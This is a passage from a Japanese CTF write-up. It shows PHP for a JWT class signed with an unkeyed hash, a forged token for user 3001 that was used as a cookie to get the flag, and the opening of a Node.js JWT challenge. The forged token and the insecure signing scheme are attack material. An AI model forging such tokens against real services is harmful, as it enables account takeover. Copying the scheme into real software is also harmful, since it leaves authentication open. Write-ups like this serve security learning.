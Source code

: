 ```php
            'typ'=> 'JWT'
        ));

        $payload = json_encode($data);
        $signature = hash($this->alg, $header.$payload);
        return base64_encode($header.'.'.$payload.'.'.$signature);
    }

    function dehashing($token)
    {
        $parted = explode('.', base64_decode($token));
        $signature = $parted[2];

        if(hash($this->alg, $parted[0].$parted[1]) != $signature)
            die("<script>alert('INVALID JWT!!');</script>");

        $payload = json_decode($parted[1],true);
        return $payload;
    }
}

$jwt = new jwt();
```

署名アルゴリズムは `hash($this->alg, $header.$payload)` と大変単純です。これを利用すれば好きなユーザでログインできるはずです。雑に総当りで試していると、ユーザ ID が `3001` になるような以下のような文字列を Cookie にセットしてみるとフラグが得られました。

```
>>> $jwt->hashing(['user_no' => 3001])
=> "eyJhbGciOiJzaGEyNTYiLCJ0eXAiOiJKV1QifS57InVzZXJfbm8iOjMwMDF9Ljg3ZmU4NjRkNzE4MTIwMzI2YTRmYTRmZGY4ZTlhMGMwZGZmNTMwMDViNTY0N2Q2ZmRiZDZkYzhkYTRiODFhN2Y="
```

```
XMAS{Last Christmas~ I gave you my heart~ <3}
```

## [Web 849] JWT
> Plz crack jwt
> 
> (URL)
> 
> * CSRF 문제와 같은 파일입니다
> 
> 添付ファイル: src.zip (ソースコード)

ソースコードが与えられています。どこでフラグが得られるか `flag` で検索してみましょう。`routes/bruth.js` に以下のようなコードがありました。

```javascript
︙
const CONF = require('../config');
︙
router.use((req, res, next) => {
  const token = req.cookies.token_b;
  if (token) {
    jwt.verify(token, CONF.jwt.bruth.key, CONF.jwt.bruth.options, (err, decoded) => {
      if (err) {
        if (err.name === 'TokenExpiredError') {
          return res.send({ code: 401, msg: '토큰이 만료되었습니다' });
        } else if (err.name === 'JsonWebTokenError') {
          return res.send({ code: 401, msg: '토큰에 에러가 있습니다' });
        } else {
          return res.send({ code: 401, msg: "토큰 인증 절차에 오류가 발생했습니다", err: err.message });
        }
      } else {
        req.auth = decoded;
```
